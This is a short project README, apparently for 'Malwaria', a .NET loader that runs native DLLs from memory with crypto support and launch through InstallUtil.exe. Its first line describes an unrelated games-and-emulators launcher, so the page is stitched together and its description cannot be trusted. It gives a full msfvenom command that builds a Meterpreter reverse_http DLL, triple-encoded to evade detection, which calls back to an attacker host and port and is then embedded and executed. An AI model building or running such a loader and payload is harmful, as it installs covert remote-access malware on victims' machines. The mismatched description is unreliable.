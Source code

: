 #Dizanik Launcher
dizanik launcher is program that colltect games and emulators in one place.


# Malwaria
Execute Native DLL from .NET 

Based on https://github.com/Scavanger/MemoryModule.net

Added Crypto Support

Added Ability To Execute From Resource

Added Ability to be launched via InstallUtil.exe


Rough Prototype

1. Create The DLL:

<Embedded Sample>
./msfvenom -p windows/meterpreter/reverse_http -e x86/shikata_ga_nai -i 3 -f dll  -a x86 LHOST=192.168.249.129 LPORT=8080 > msf.dll

2. Add DLL To Project

3. Compile and Execute 

